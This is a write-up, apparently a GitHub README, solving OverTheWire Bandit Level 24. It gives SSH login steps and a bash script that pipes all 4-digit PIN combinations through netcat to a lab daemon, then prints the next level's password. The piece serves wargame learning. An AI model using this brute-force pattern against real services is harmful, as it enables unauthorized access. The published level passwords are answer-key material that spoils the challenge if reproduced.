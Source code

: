 
# OverTheWire Bandit CTF – Level 24

## 🏆 **Goal**  
The goal of Bandit Level 24 is to brute-force a 4-digit numeric PIN to get the password for the next level from a daemon listening on **port 30002**.

---

## 🚀 **Steps to Solve**

### 1. **Connect via SSH**  
Use the password obtained from Level 23 to log into **bandit24** using SSH:

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

- **Username:** bandit24  
- **Hostname:** bandit.labs.overthewire.org  
- **Port:** 2220  

When prompted, enter the password from Level 23:

```
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

---

### 2. **Create a Temporary Working Directory**  
Create a temporary directory to keep things organized:

```bash
mktemp -d
```

Example output:
```
/tmp/tmp.abcd1234
```

Navigate to the directory:

```bash
cd /tmp/tmp.abcd1234
```

---

### 3. **Create a Brute-Force Script**  
Create a shell script named `brute_force_pin.sh` using `nano`:

```bash
nano brute_force_pin.sh
```

Add the following script:

```bash
#!/bin/bash

for i in {0000..9999}
do
    echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i >> possibilities.txt
done

cat possibilities.txt | nc localhost 30002 > result.txt
```

---

### 4. **Make the Script Executable**  
Give the script execute permissions:

```bash
chmod +x brute_force_pin.sh
```

---

### 5. **Run the Brute-Force Script**  
Execute the script:

```bash
./brute_force_pin.sh
```

---

### 6. **Filter the Correct Output**  
The output file `result.txt` will contain the responses from the daemon. Use `sort` and `grep` to find the successful attempt:

```bash
sort result.txt | grep -v "Wrong!"
```

Example output:
```
iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

---

## 📸 **Screenshot**  
![Level-24](https://github.com/user-attachments/assets/09f8dfab-f18a-4fc9-9413-9cd7eee31454)
![Level-24](https://github.com/user-attachments/assets/d9d3885a-a730-414d-bb89-7e651c06956c)

---

## 🔑 **Password for Next Level**  
The password for **Level 25** is:

```
iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

---

## ✅ **Summary**  
✔️ Connected to the server using SSH.  
✔️ Created a brute-force script to try all possible 4-digit combinations.  
✔️ Sent the combinations to the daemon via `netcat`.  
✔️ Retrieved the password for Level 25!  

---

**Next Step:** Proceed to [Level 25](https://overthewire.org/wargames/bandit/bandit25.html) to continue the challenge.  

---
